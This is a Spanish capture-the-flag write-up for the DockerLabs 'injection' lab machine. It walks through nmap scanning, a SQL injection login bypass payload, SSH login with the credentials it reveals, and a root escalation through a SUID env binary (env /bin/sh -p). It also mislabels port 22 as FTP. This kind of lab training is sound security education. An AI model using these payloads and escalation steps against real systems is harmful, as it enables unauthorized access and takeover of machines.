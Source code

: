# Write Up First Hacking

**Dificultad:** Super fáil<br>
**Enlace a dockerlabs:** https://dockerlabs.es/

## Configuración del entorno
Primero de todo desplegamos la máquina mediante el script que viene al descargar la máquina
```
❯ sudo ./auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta injection, nos metemos dentro y usamos la utilidad *mkt* que nos crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
```
## Reconocimiento
Lo primero que realizamos es un reconocimiento general con nmap sobre la máquina víctima, para obtener los puertos abiertos. 
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Una vez obtenemos los puertos abiertos, realizamos un escaneo mas exhaustivo mediante scripts de reconocimiento para obtener los servicios de cada puerto y la versión en la que corren

```
❯ extractPorts allPorts
[*] Extracting information...

   [*] IP Address: 172.17.0.2
   [*] Open ports: 22,80

[*] Ports copied to clipboard

❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

De esta manera descubrimos que el servicio que está corriendo en el puerto 22 (puerto FTP) es el OpenSSH 8.9p1 y en el puerto 80 (puerto http) está corriendo un servicio web Apache httpd 2.4.52.

## Explotación
Como hemos visto que hay un servicio web corriendo en la máquina víctima procedemos a ver la web, añadiendo el dominio (en este caso no tiene y simplemente pondremos el nombre de la máquina) al archivo */etc/hosts* de nuestra máquina virtual (es el archivo de configuración de DNS local).

```
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   kali

172.17.0.2  injection

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Una vez configurado el archivo */etc/hosts* procedemos a acceder a la página web, y vemos que es un formulario de login.

![Login](image.png)

Probamos a introducir los parámetros básicos para comprobar si hay inyección SQL. Para ello hay que introducir la cadena *admin' OR '1' = '1'; --* en el apartado de usuario y cualquier cosa en password (en mi caso he puesto *hacked!*) para que deje enviar el formulario, y si todo va bien, podremos entrar siendo los administradores (si no va con el usuario admin se puede ir cambiando a root, administrator, y cosas parecidas, pero sin perder mucho el tiempo).

```
User: admin' OR '1' = '1'; --
Password: hacked!
```

Y bingo! Estamos dentro y obtenemos las credenciales de el usuario Dylan

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

![alt text](image-1.png)

Al haber obtenido esas credenciales, podemos probar a acceder mediante el puerto ssh también abierto.

```
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$ 
```

Y ya tenemos acceso a la máquina!

## Escalada de privilegios

Para poder utilizar la consola de una manera mas cómoda podemos hacer el siguiente tratamiento de la terminal:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Ahora que tenemos una terminal buscamos archivos (a poder ser binarios) con usuario root y el flag *setuid* activo y encontramos los siguientes:

```
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
```

Así que usamos el comando env de la siguiente forma y elevamos privilegios a root

```
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
# 
```